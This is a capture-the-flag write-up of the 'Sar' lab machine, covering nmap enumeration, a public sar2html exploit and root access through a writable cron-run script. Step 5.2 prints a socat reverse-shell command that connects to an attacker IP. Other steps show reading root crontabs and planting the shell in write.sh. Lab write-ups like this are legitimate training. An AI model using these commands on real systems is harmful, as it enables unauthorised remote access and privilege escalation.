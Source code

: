 # PG Play - Sar
## Machine Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
### Write up - Kaib3r
### Completion date - 29/03/2024
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |
| 6.1 | I found another nice command that could of found this cron job quicker: ```cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"``` |
| 7. | I navigated to the finally.sh file at ```/var/www/html/finally.sh``` |
| 8. | When I read the finally.sh I found the scripts only purpose is to run another script called write.sh every 5th minute, I had read, write and execute permissions of the write.sh file. All the write.sh file did was create a empty file in the tmp directory called gateway. |
| 9. | I modified write.sh to include the socat reverse shell, since the cronjob for finally.sh ran every 5 minutes it would provide me, in theory which a reverse shell as root. |
| 10. | This worked and I was able to obtain the proof.txt for this machine |

| Lessons Learnt: | |
| --- | --- |
| 1. | This machine reminded me of a couple of things I learnt from the TCM Academy course on Ethical hacking, which was taking advantage of files that were either directly ran as root and I was capable of modifying. |
| 2. | The value of a tty shell |
